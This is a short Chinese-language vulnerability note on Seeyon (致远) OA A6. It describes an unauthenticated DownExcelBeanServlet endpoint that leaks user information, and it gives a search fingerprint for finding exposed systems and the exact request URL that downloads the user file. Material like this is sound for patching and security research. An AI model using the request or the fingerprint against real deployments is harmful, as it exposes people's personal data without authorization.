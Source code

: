 # 致远OA A6 DownExcelBeanServlet 用户敏感信息泄露

## 漏洞描述

致远OA A6 存在某个未授权的接口导致任意访问者可下载OA中的用户信息

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

访问如下URL即可跳转下载用户信息文件

```plain
/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-18.png)